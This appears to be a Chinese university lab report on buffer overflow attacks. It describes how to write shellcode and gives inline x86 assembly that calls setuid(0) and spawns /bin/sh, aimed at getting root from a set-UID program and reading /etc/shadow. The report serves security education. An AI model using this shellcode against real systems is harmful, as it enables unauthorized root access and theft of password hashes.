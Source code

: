 ## 实验四 缓冲区溢出攻击技术

<p style = "text-align:right">李远航 PB20000137</p>

#### 一、实验目的

了解并运用缓冲区溢出攻击技术实现简单的漏洞攻击

#### 二、实验原理

shellcode是注入到目标进程中的二进制代码，其功能取决于编写者的意图。编写 shellcode要经过以下 3 个步骤： 

- 编写简洁的能完成所需功能的 C 程序；
- 反汇编可执行代码，用系统功能调用代替函数调用，用汇编语言实现相 同的功能；
-  提取出操作码，写成 shellcode，并用 C 程序验证。

#### 三、实验内容

针对 32 位 ubuntu Linux 系统（版本号为 16），请设计一个能对 root 用户 set-UID 程序进行漏洞攻击的 shellcode，并参考 shell_asm_fix_opcode.c 验证该 shellcode 能获得 root 权限（可以成功执行 cat /etc/shadow）。

#### 四、实验过程

1. 首先查看setuid(0)的汇编代码，这里可以使用IDA反汇编工具或者gdb

    ![image-20230513195831740](C:/Users/voyage/AppData/Roaming/Typora/typora-user-images/image-20230513195831740.png)

2. 将上述代码加入示例的shellcode程序中

    ```c
    // gcc -o fix -z execstack ../src/shell_asm_fix.c
    void foo()
    {
        __asm__(
            "push   %ebp ;"
            "mov    %esp,%ebp ;"
            "sub    $0x8,%esp ;"
            "sub    $0xc,%esp ;"
            "push   $0x0 ;"
            "call   setuid ;"
            "add    $0x10,%esp ;"
            "nop ;"
            "xor    %edx,%edx ;"
            "push   %edx ;"
            "push   $0x68732f6e ;"
            "push   $0x69622f2f ;"
            "mov    %esp,%ebx ;"
            "push   %edx ;"
            "push   %ebx ;"
            "mov    %esp,%ecx ;"
            "lea    0xb(%edx),%eax ;"
            "int    $0x80;" //"sysenter ;"
        );
    }
    int main(int argc, char *argv[])
    {
        foo();
        return 0;
    }
    ```

3. 验证程序准确性

    

    ![img](file:///C:\Users\voyage\AppData\Roaming\Tencent\Users\923959605\TIM\WinTemp\RichOle\1ZU[~~6YJ0U6[URZ`ZYVE7S.png)

#### 五、实验收获

- 对缓冲区溢出攻击有了初步的了解
- 认识到信息安全的重要性
- 提升了使用gdb调试代码，阅读汇编代码的能力